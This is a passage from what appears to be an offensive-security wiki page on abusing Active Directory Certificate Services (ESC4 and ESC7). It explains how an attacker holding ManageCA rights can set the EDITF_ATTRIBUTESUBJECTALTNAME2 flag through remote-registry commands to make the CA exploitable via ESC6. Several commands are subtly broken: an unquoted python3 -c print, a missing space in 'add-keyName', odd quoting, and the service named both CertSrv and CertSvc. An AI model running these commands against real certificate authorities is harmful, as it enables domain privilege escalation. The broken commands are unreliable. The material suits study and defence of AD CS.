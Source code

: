 {% hint style="warning" %}
If sensitive access entries are identified, creativity will be the best ally.

Currently, the best resources for manually abusing this are

* [Abusing weak ACL on Certificate Templates (by daemon0cc0re)](https://github.com/daem0nc0re/Abusing\_Weak\_ACL\_on\_Certificate\_Templates)
* [AD-CS The Certified Pre Owned Attacks (by HTTP418)](https://http418infosec.com/ad-cs-the-certified-pre-owned-attacks#esc4)
{% endhint %}

### Certificate Authority (ESC7)

There are two attacks paths for this scenario:

1. If an attacker gains control over a principal that's able to edit the CA server registries (e.g. local admin, or `ManageCA`?), and is able to restart the `CertSrv` service on the server, he can make the CA vulnerable to ESC6 and exploit that
2. Alternatively, if an attacker gains control over a principal that has the `ManageCA` right over the CA object, he can remotely obtain the `ManageCertificates` right and with those two rights combined, approve pending certificate requests, subverting the "CA certificate manager approval" protection (referred to as PREVENT4 in [the research whitepaper](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)).

#### ESC7 - Exposing to ESC6

If sufficient rights are obtained over the Certificate Authority (`ManageCA`?, local admin account, ...) an attacker could remotely edit the registries, enable the `EDITF_ATTRIBUTESUBJECTALTNAME2` attribute, restart the `CertSvc` service, and abuse [ESC6 (CA configuration abuse)](certificate-authority.md).

{% tabs %}
{% tab title="UNIX-like" %}
The attack can be carried out from UNIX-like systems as follows.

```bash
# /!\ Beware: change placeholder values CA-NAME, VALUE, NEW_VALUE

# query flags
reg.py "$DOMAIN"/"$USER":"$PASSWORD"@$"ADCS_IP" query -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\CA-NAME\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy' -v editflags

# bitwise OR to set the flag if not already (nothing changed if already set)
python3 -c print("NEW_VALUE:", VALUE | 0x40000)

# write flags
reg.py "$DOMAIN"/"$USER":"$PASSWORD"@$"ADCS_IP" add-keyName 'HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\CA-NAME\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy' -v editflags -vd NEW_VALUE
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate info about the CAs, including access rights over the CA object.
